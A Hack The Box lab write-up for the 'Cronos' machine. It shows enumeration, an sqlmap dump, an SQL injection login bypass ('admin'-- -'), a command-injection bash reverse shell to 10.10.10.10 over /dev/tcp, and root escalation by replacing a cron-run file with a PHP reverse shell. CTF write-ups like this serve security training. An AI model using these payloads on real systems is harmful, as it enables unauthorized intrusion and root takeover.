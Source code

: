 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Cronos/logo.png
date: 2023-03-04 09:45:47+07:00
machine_author:
  link: https://app.hackthebox.com/users/1
  name: ch4p
modified: 2023-03-04 09:45:47+07:00
tags:
- OS Command Injection
- cronos
- PHP
- Web
- DNS
- Hackthebox
- Writeup
title: Cronos
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Cronos is a medium Linux machine that focuses mainly on different vectors for enumeration and also emphasises the risks associated with adding world-writable files to the root crontab. This machine also includes an introductory-level SQL injection vulnerability

### Difficulty:

`Medium`


# Enumeration

First I check for available open ports.

`nmap -sC -sV -A -oG beep beep.htb`

![](https://photos.squarezero.dev/file/abir-images/Cronos/1.png)

|Ports|Service
|22| ssh OpenSSH 7.2p2 (4Ubuntu2.1)
|53| DNS
|80| Apache httpd 2.4.18

Next, I did directory brute-forcing but nothing interesting showed up. 

As there is a DNS server running I did a subdomain brute-forcing.

![](https://photos.squarezero.dev/file/abir-images/Cronos/2.png)



# Foothold

Upon visiting the subdomain I found a login page.

![](https://photos.squarezero.dev/file/abir-images/Cronos/3.png)

I have intercepted the request and saved the request as file.

![](https://photos.squarezero.dev/file/abir-images/Cronos/4.png)

Now I used SQLMAP with the file to find credentials for the website.

`sqlmap -r sql.req --batch --dump --level 5 --risk 3`

![](https://photos.squarezero.dev/file/abir-images/Cronos/5.png)

I tried the login but that didn't work. So, I tried SQL injection with user admin.

Payload → `admin'-- -`

Now I got in and found traceroute/ping option.

![](https://photos.squarezero.dev/file/abir-images/Cronos/6.png)

This looks like an OS command injection vulnerability.
So I intercepted the request and used a bash reverse shell to make the server connect to me.

Payload → `bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1';`

**Note: Make sure the payload is URL encoded.**

![](https://photos.squarezero.dev/file/abir-images/Cronos/7.png)

And we got a shell !!

![](https://photos.squarezero.dev/file/abir-images/Cronos/8.png)

# Privilege Escalation

After checking with Linpeas I found a cronjob running with root permission.

![](https://photos.squarezero.dev/file/abir-images/Cronos/9.png)

So I have replaced the file with PHP-reverse-shell and renamed it to artisan.

![](https://photos.squarezero.dev/file/abir-images/Cronos/10.png)

After the cronjob executed I got a reverse shell with Root !! 